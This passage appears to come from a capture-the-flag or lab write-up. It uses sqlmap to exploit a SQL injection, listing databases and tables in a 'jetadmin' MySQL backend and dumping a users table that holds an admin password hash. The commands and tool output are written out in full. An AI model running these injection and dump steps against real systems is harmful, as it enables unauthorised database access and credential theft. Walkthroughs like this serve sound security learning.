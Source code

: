 ```
[12:11:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0
[12:11:03] [INFO] fetching database names
[12:11:03] [INFO] resumed: 'information_schema'
[12:11:03] [INFO] resumed: 'jetadmin'
available databases [2]:
[*] information_schema
[*] jetadmin
```

  

Now we list the tables with `-tables`indicating the database `jetadmin`with parameter `-D`, we can find only the table `users`in that database

```
❯ sqlmap -r request --batch -D jetadmin -tables
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[12:12:49] [INFO] parsing HTTP request from 'request'
[12:12:49] [INFO] resuming back-end DBMS 'mysql' 
[12:12:49] [INFO] testing connection to the target URL
[12:12:50] [INFO] the back-end DBMS is MySQL
[12:12:50] [INFO] fetching tables for database: 'jetadmin'  
[12:12:50] [INFO] resumed: 'users'
Database: jetadmin
[1 table]
+-------+
| users |
+-------+
```

  

Now we can simply use the parameter `-dump`to dump all the existing columns in the users table and we get a `hash`user`admin`

```
❯ sqlmap -r request --batch -D jetadmin -T users -dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[12:14:33] [INFO] parsing HTTP request from 'request'
[12:14:34] [INFO] resuming back-end DBMS 'mysql' 
[12:14:34] [INFO] testing connection to the target URL
[12:14:34] [INFO] the back-end DBMS is MySQL
[12:14:34] [INFO] fetching columns for table 'users' in database 'jetadmin'
[12:14:34] [INFO] resumed: 'id'
[12:14:34] [INFO] resumed: 'int(11)'
[12:14:34] [INFO] resumed: 'username'
[12:14:34] [INFO] resumed: 'varchar(50)'
[12:14:34] [INFO] resumed: 'password'
[12:14:34] [INFO] resumed: 'varchar(191)'
[12:14:34] [INFO] fetching entries for table 'users' in database 'jetadmin'
[12:14:34] [INFO] resumed: '1'
[12:14:34] [INFO] resumed: '97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084'  
```